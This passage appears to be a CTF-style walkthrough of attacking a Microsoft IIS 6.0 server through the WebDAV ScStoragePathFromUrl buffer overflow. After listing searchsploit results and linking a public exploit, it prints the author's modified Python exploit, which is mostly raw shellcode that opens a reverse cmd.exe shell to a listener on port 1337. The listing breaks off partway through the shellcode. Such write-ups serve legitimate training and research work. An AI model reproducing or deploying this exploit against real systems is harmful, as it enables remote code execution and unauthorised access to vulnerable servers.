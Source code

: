 ```
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (2)                                                            | windows/remote/8806.pl
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (Patch)                                                        | windows/remote/8754.patch
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (PHP)                                                          | windows/remote/8765.php
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities                                                               | windows/remote/19033.txt
----------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I decided to try out the WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow first.

There is a buffer overflow in the ScStoragePathFromUrl function in the WebDAV service. And this allows us to execute our own code.

The demo script only opens calculator.exe, which does not really help our cause. 

I found a modified script here: https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell 

So I further modified it a bit to this: 

```
import sys
import struct
import socket  

shellcode='\x55\x8B\xEC\x81\xEC\xDC\x05\x00\x00\x53\x56\x57\x8B\x45\x08\x8B'+\
'\x40\x78\x89\x85\xE4\xFA\xFF\xFF\x8B\x45\x08\x8B\x40\x70\x89\x45'+\
'\xFC\xC7\x85\xC8\xFC\xFF\xFF\x77\x73\x32\x5F\xC7\x85\xCC\xFC\xFF'+\
'\xFF\x33\x32\x2E\x64\xC7\x85\xD0\xFC\xFF\xFF\x6C\x6C\x00\x00\xC7'+\
'\x85\xD8\xFA\xFF\xFF\x57\x53\x41\x53\xC7\x85\xDC\xFA\xFF\xFF\x74'+\
'\x61\x72\x74\xC7\x85\xE0\xFA\xFF\xFF\x75\x70\x00\x00\xC7\x85\x58'+\
'\xFA\xFF\xFF\x57\x53\x41\x53\xC7\x85\x5C\xFA\xFF\xFF\x6F\x63\x6B'+\
'\x65\xC7\x85\x60\xFA\xFF\xFF\x74\x41\x00\x00\xC7\x85\xE8\xFC\xFF'+\
'\xFF\x57\x53\x41\x43\xC7\x85\xEC\xFC\xFF\xFF\x6F\x6E\x6E\x65\xC7'+\
'\x85\xF0\xFC\xFF\xFF\x63\x74\x00\x00\xC7\x85\xA8\xFA\xFF\xFF\x69'+\
'\x6E\x65\x74\xC7\x85\xAC\xFA\xFF\xFF\x5F\x61\x64\x64\xC7\x85\xB0'+\
'\xFA\xFF\xFF\x72\x00\x00\x00\xC7\x85\x14\xFD\xFF\xFF\x68\x74\x6F'+\
'\x6E\xC7\x85\x18\xFD\xFF\xFF\x73\x00\x00\x00\xC7\x85\xF4\xFC\xFF'+\
'\xFF\x43\x3A\x5C\x57\xC7\x85\xF8\xFC\xFF\xFF\x69\x6E\x64\x6F\xC7'+\
'\x85\xFC\xFC\xFF\xFF\x77\x73\x5C\x73\xC7\x85\x00\xFD\xFF\xFF\x79'+\
'\x73\x74\x65\xC7\x85\x04\xFD\xFF\xFF\x6D\x33\x32\x5C\xC7\x85\x08'+\
'\xFD\xFF\xFF\x63\x6D\x64\x2E\xC7\x85\x0C\xFD\xFF\xFF\x65\x78\x65'+\
'\x00\xC7\x85\x18\xFB\xFF\xFF\x43\x3A\x5C\x57\xC7\x85\x1C\xFB\xFF'+\
'\xFF\x69\x6E\x64\x6F\xC7\x85\x20\xFB\xFF\xFF\x77\x73\x5C\x73\xC7'+\
'\x85\x24\xFB\xFF\xFF\x79\x73\x74\x65\xC7\x85\x28\xFB\xFF\xFF\x6D'+\
'\x33\x32\x5C\xC7\x85\x2C\xFB\xFF\xFF\x63\x61\x6C\x63\xC7\x85\x30'+\
'\xFB\xFF\xFF\x2E\x65\x78\x65\x83\xA5\x34\xFB\xFF\xFF\x00\xC7\x85'+\
'\xE8\xFA\xFF\xFF\x43\x3A\x5C\x57\xC7\x85\xEC\xFA\xFF\xFF\x49\x4E'+\
'\x44\x4F\xC7\x85\xF0\xFA\xFF\xFF\x57\x53\x5C\x49\xC7\x85\xF4\xFA'+\
'\xFF\xFF\x49\x53\x20\x54\xC7\x85\xF8\xFA\xFF\xFF\x65\x6D\x70\x6F'+\
'\xC7\x85\xFC\xFA\xFF\xFF\x72\x61\x72\x79\xC7\x85\x00\xFB\xFF\xFF'+\
'\x20\x43\x6F\x6D\xC7\x85\x04\xFB\xFF\xFF\x70\x72\x65\x73\xC7\x85'+\
'\x08\xFB\xFF\xFF\x73\x65\x64\x20\xC7\x85\x0C\xFB\xFF\xFF\x46\x69'+\
'\x6C\x65\xC7\x85\x10\xFB\xFF\xFF\x73\x5C\x63\x2E\xC7\x85\x14\xFB'+\
'\xFF\xFF\x65\x78\x65\x00\xC7\x85\xD0\xFA\xFF\xFF'+struct.pack('i',1337)+\
'\xE9\x3E\x04\x00\x00\x5F\x89\xBD\xB4\xFA\xFF\xFF\xE8\x4C\x04\x00'+\
'\x00\x89\x85\x24\xFA\xFF\xFF\x68\x53\xC0\x49\x9C\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\x5D\x04\x00\x00\x59\x59\x89\x85\x28\xFA\xFF\xFF\x68'+\
'\x5A\xC1\xCB\xC2\xFF\xB5\x24\xFA\xFF\xFF\xE8\x45\x04\x00\x00\x59'+\
'\x59\x89\x85\x2C\xFA\xFF\xFF\x68\x1C\xC9\x05\xBA\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\x2D\x04\x00\x00\x59\x59\x89\x85\x30\xFA\xFF\xFF\x68'+\
```